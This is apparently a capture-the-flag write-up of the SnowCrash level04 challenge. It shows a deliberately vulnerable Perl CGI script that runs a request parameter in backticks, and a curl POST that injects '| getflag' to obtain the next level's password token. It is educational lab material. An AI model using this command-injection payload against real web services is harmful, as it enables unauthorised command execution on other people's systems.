 # level04

- We login as user level04.
```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

- Let's `cat ./level04.pl`:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```


- The script appears to be designed to be executed by a [CGI](https://en.wikipedia.org/wiki/Common_Gateway_Interface) through a service listening on localhost through port 4747.
It calls the `x()` function with the parameter `x` retrieved from the CGI. The function calls `echo` with the parameter it receives.
Therefore, if the parameter `x` is `| getflag`, this script will then execute `echo | getflag`.
```
level04@SnowCrash:~$ netstat -tuln | grep 4747
tcp6       0      0 :::4747                 :::*                    LISTEN
```


- There is indeed a service listening on all addresses through port 4747.
```
level04@SnowCrash:~$ curl -X POST -d "x=| getflag" http://localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

```
level04@SnowCrash:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
level05@SnowCrash:~$
```